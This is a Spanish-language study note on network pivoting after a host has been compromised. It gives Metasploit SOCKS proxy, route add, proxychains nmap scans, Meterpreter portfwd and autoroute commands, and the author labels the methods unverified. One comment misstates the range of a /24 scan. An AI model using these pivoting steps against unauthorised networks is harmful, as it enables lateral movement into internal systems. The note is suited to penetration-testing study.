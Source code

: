 ![[MS 17.png]]

-----
# Formas alternas de Pivoting (No verificadas por mi)

### **SOCKS Proxy (`auxiliary/server/socks_proxy`)**

Este módulo crea un servidor ``SOCKS5`` en la máquina atacante que **enruta el tráfico a través de la máquina comprometida**, permitiendo que accedas a **redes internas** utilizando herramientas como `proxychains`.

- **``use auxiliary/server/socks_proxy``**
- **``set SRVHOST 127.0.0.1``**
- **``set SRVPORT 1080``**
- **``set sessions <ID>``** --> En ``ID`` colocamos la **ID** de la sesión en donde esté la **máquina intermedia**.
- **``run``**

**Enrutamiento de red**: Configura el enrutamiento en Metasploit para la red interna de la máquina comprometida con `route add`.

- **``route add <RED_INTERNA> <MASCARA> <ID_SESION>``**

**Acceso**: Luego podemos usar `proxychains` para ejecutar herramientas como `nmap`, `sqlmap`, etc., a través del proxy.

- ``proxychains nmap -sn 192.168.238.0/24`` --> Escanea todos los **Hosts** desde la ``238.0`` hasta la ``238.55``
- ``proxychains nmap -p- 192.168.238.128`` --> Escanea todos los puertos de la **IP** dada.

------
### **Port Forwarding en Meterpreter**

El _port forwarding_ de ``Meterpreter`` permite redirigir puertos específicos de tu máquina local hacia servicios internos en la red de la máquina comprometida. Este método es útil para interactuar directamente con servicios en un puerto específico.

- **``portfwd add -l <PUERTO_LOCAL> -p <PUERTO_REMOTO> -r <DIRECCION_IP_INTERNA>``**

Esto redirige el puerto local a través de la máquina comprometida, permitiéndote acceder al servicio como si estuviera en tu red local.

-----
### **Pivoting de Payload con `autoroute`**

`autoroute` es un script de ``Meterpreter`` que facilita el pivoting añadiendo automáticamente rutas a través de una sesión establecida. Es útil cuando quieres acceder a **varias subredes** sin necesidad de añadir cada ruta manualmente.

- **``run autoroute -s <RED_INTERNA> -n <MASCARA>``**

Después de configurar `autoroute`, Metasploit enruta automáticamente las solicitudes a la red interna a través de la sesión actual, permitiendo que otros módulos aprovechen la conexión de **pivoting**.